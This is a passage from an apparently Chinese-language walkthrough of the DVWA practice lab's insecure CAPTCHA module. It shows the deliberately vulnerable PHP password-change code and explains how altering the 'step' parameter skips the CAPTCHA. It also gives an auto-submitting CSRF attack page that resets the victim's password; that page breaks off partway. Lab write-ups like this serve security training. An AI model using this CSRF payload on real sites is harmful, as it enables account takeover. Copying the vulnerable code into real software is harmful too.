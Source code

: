 ```php
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check to see if both password match
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update database
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the end user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with the passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
		$hide_form = false;
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

可以看到,服务器将改密操作分成了两步,第一步检查用户输入的验证码,验证通过后,服务器返回表单,第二步客户端提交 post 请求,服务器完成更改密码的操作.但是,这其中存在明显的逻辑漏洞,服务器仅仅通过检查 Change、step 参数来判断用户是否已经输入了正确的验证码.


**通过构造参数绕过验证过程的第一步**

首先输入密码,点击 Change 按钮,抓包,更改 step 参数绕过验证码:

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa38.png)

ps:因为没有翻墙,所以没能成功显示验证码,发送的请求包中也就没有 recaptcha_challenge_field、recaptcha_response_field 两个参数

**CSRF**

由于没有任何的防 CSRF 机制,我们可以轻易地构造攻击页面,页面代码如下
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

```